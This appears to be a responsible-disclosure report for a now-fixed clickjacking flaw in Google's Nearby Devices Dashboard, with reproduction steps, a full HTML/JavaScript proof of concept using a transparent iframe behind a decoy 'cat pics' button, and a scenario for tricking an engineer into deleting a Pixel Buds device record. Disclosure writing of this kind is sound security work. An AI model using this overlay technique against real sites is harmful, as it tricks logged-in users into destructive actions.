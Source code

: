 ```yaml
---
layout: post
slug: "0005"
vendor: "Google"
status: "fixed"
reported: "2021-02-16"
title: "Clickjacking in Nearby Devices Dashboard"
---
```


**Summary:**

Clickjacking is possible on the Nearby Devices Dashboard. Using this, (among other things) an attacker could create a malicious webpage which can trick a victim into deleting his/her own device.

**POC Video:**

[https://youtu.be/kqfsgEJjgEM](https://youtu.be/kqfsgEJjgEM) (`00:15`) (`music`)

**Core Issue:**

The Nearby Devices Dashboard page on `https://developers.google.com/nearby/devices/` actually embeds `https://developers-dot-devsite-v2-prod.appspot.com/nearby/devices/index_c4c5649698417947f28fa2ba0f3267ae10a9a13b3b687a720a65984cfff9e812.frame`, which displays the Dashboard. This host behaves just like `developers.google.com`, but looks like an AppEngine App.

The host `developers-dot-devsite-v2-prod.appspot.com` doesn't have any framing protections.

When a victim uses the Nearby Devices Dashboard, she has to log in. When she logs in, since the whole Dashboard is in an iframe, the login cookies get set on `developers-dot-devsite-v2-prod.appspot.com`.

So, its possible to embed `developers-dot-devsite-v2-prod.appspot.com`, and a victim will have valid cookies, so the embedded frame will be logged in.

**Steps to reproduce:**

1. Create/log into a Google account
2. Go to `https://developers.google.com/nearby/devices/`, log in, and create a GCP project when prompted
3. Go to `Add Device`, and create a new device. (Choose `Fast Pair` -> `Headphones` for the least required fields & You must upload an 512x512 image)
4. Convert the new device's `Model ID` from hex to decimal (e.g. for the Pixel Buds: `0x92BBBD` -> `9616317`)
5. Open the POC HTML file from below, and add the ID after the `#` sign in the URL (e.g. `poc.html#9616317`)
6. When the POC loads, see that the device management page got embedded, and clicking the `Click here for cat pics!!` deletes the victim's device

**POC Code:**

```
<html>
    <body>
        <button id="button" style="pointer-events: none;z-index:1;left:460px;position:relative;top:-330px;background-color: greenyellow;"><b>Click here for<br/>cat pics!!</b></button>
        <iframe id="iframe" width=500px height=500px style="opacity: 0.1;"></iframe>
    </body>
    <script>
        document.getElementById("iframe").src = "https://developers-dot-devsite-v2-prod.appspot.com/nearby/devices/index_c4c5649698417947f28fa2ba0f3267ae10a9a13b3b687a720a65984cfff9e812.frame#/devices/view/" + window.location.hash.substring(1);

        window.addEventListener("blur", function(){
            var elem = document.createElement('iframe');
            elem.style.cssText = 'position:absolute;width:50%;height:50%;z-index:100';
            elem.src = "https://www.youtube.com/embed/5wOXc03RwVA?autoplay=1"
            document.body.appendChild(elem);
        });
    </script>
</html>
```

**Real-world Attack:**

*Attacker wants to delete the second generation Pixel Buds device, to cause a DOS for users who want to pair with it.*

1. Attacker buys a Pixel Buds
2. [From the BLE advertisements](https://developers.google.com/nearby/fast-pair/spec#advertising_payload_fast_pair_model_id_data), Attacker notes that the Pixel Buds has a `Model ID` of `0x92BBBD`
3. Attacker converts this ID to decimal `0x92BBBD` -> `9616317`
4. Attacker sets up the POC, and sends the malicious link (`poc.html#9616317`) to a Google Engineer who is logged into the Nearby Devices Dashboard and has access to the Pixel Buds device
5. If the Google Engineer clicks `Click here for cat pics!!`, the Pixel Buds device gets deleted, probably causing a DOS/other issues for users who want to pair with their Pixel Buds

**[Disclosure Warning]:**

**This issue is subject to a 90 day disclosure deadline.** On `2021-05-17` this issue will be publicly disclosed. If you would like to redact additional information or if for some reason the issue can't be fixed until the deadline, let me know in a comment.

Thank you!